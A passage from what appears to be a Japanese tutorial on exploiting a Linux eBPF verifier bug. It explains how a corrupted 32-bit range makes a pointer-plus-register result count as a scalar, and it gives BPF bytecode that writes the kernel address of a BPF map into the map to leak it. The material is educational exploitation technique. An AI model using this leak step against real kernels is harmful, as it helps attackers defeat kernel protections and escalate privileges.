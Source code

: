 ```c
    ...
```
上記のコードを読むと、今回のようにスカラー値側の追跡が壊れているケースでは、演算結果を`__mark_reg_unknown`で不明な値にしています。
つまり、追跡を壊したレジスタとポインタを加算すると、結果はスカラー値として扱われます。スカラー値はBPFマップに書き込めるので、アドレスリークが可能です。さっそく`map_lookup_elem`で取得したBPFマップのポインタをリークしてみましょう。
先ほど`s32_min_value`などの推測を壊しましたが、上記コードでは`smin_val`など64ビットレジスタが壊れている必要があります。32ビット値を64ビット値に拡張するには、x86-64と同じように、`BPF_MOV32_REG`を使って32ビットのレジスタにコピーすれば良いです。
```c
...
    // R1 --> (s32_min=1, s32_max=0, u32_min=1, u32_max=0)
    BPF_ALU64_REG(BPF_OR, BPF_REG_1, BPF_REG_2),

    // R0 --> scalar
    BPF_MOV32_REG(BPF_REG_1, BPF_REG_1),
    BPF_ALU64_REG(BPF_ADD, BPF_REG_0, BPF_REG_1),

    // スカラー値となったポインタを保存
    BPF_STX_MEM(BPF_DW, BPF_REG_FP, BPF_REG_0, -0x10),
    BPF_LD_MAP_FD(BPF_REG_ARG1, mapfd),
    BPF_MOV64_REG(BPF_REG_ARG2, BPF_REG_FP), // key
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG2, -0x08),
    BPF_MOV64_REG(BPF_REG_ARG3, BPF_REG_FP), // value
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG3, -0x10),
    BPF_MOV64_IMM(BPF_REG_ARG4, 0),          // flag
    BPF_EMIT_CALL(BPF_FUNC_map_update_elem), // map_update_elem
```

次のようにBPFマップのアドレスがリークできていれば成功です。R1には1が入っていたので、加算により実際よりもアドレスが1ずれていることに注意してください。

<center>
  <img src="img/addrleak.png" alt="マップアドレスのリーク" style="width:640px;">
</center>

このアドレスを見ると、正しく配列の先頭要素（リークしたデータ）が入っています。
